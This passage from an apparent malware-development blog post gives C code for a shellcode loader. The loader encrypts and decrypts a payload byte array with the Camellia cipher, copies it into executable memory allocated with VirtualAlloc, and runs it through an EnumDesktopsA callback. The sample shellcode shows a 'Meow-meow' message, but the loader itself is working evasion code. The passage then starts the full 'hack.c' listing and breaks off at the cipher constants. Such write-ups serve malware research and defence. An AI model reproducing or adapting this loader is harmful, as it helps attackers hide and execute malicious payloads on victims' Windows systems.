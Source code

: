 ```cpp
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  uint64_t key1 = 0x0123456789ABCDEF;
  uint64_t key2 = 0xFEDCBA9876543210;

  int pad_len = my_payload_len + (BLOCK_SIZE - my_payload_len % BLOCK_SIZE) % BLOCK_SIZE;
  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);
  memcpy(padded, my_payload, my_payload_len);

  printf("original payload: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  camellia_encrypt_payload(padded, pad_len, key1, key2);

  printf("encrypted payload: ");
  for (int i = 0; i < pad_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  camellia_decrypt_payload(padded, pad_len, key1, key2);

  printf("decrypted payload: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");
  
  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, (LPARAM)NULL);
  
  return 0;
}
```

The full source code is looks like this (`hack.c`):    

```cpp
/*
* hack.c
* encrypt/decrypt payload via
* Camellia cipher
* author: @cocomelonc
* https://cocomelonc.github.io/malware/2024/12/29/malware-cryptography-38.html
*/
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>

#define BLOCK_SIZE 16 // Camellia operates on 128-bit blocks

// Camellia S-box and constants
```